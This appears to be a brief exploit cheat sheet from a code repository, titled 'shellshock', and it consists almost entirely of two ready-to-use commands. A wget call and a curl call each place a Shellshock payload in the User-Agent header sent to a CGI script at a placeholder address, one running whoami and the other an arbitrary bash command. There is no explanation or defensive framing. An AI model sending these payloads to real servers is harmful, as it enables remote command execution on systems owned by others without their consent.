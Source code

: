 # shellshock

wget --user-agent='() { :;}; echo; echo; /usr/bin/whoami' xxx.xxx.xxx.xxx/cgi-bin/vuln.cgi

curl -H "user-agent:() { :; }; echo; echo; /bin/bash -c '\<command\>'" http://xxx.xxx.xxx.xxx/cgi-bin/vuln.cgi
